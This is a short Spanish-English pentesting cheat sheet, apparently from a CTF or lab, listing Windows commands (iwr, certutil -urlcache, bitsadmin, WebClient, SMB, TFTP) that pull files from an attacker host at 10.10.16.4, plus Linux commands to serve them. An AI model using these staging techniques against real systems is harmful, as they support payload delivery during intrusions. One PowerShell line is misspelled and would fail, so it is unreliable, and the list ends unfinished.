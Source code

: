 Windows Linux Commands For Files Transfers

Windows Commads
IWR( )
- powershell.exe -command iwr -Uri http://10.10.16.4/file -OutFile C:\Temp\file
- powershell.exe iwr -uri 10.10.16.4/file -o C:\Temp\file
- powershell iwr 10.10.16.4/file -o C:\Temp\file

Certutil
- certutil -urlcache -f http://10.10.16.4/file file
- certutil -urlcache -split -f http://10.10.16.4/file file 

Bitsadmin
- bitsadmin /transfer job http://10.10.16.4/file C:\Temp\file

Curl
- curl http://10.10.16.4/file -o file

Wget
- powershell wget http://10.10.16.4/file -OutFile file
- powershell.exe wget http://10.10.16.4/file -OutFile file

Powershell
- powershell.exe (New-Object System.Net.WebClient).DonwloadFile('http://10.10.16.4/file', 'file')

SMB
- copy \\10.10.16.4\smbFolder\file 
- net use x: \\10.10.16.4\smbFolder\file; cd x; copy \\10.10.16.4\file

TFTP
Es necesario usar el modulo Auxiliar Msf Server/tftp
- tftp -i 10.10.16.4 GET file.txt


Linux Commands 
Servidor Web Para compartir archivos
1.- python3 -m http.server 80
2.- Servidor por SMB -- impacket-smbserver smbFolder $(pwd) -smb2support
3.- msfconsole --> TFTP
4.-
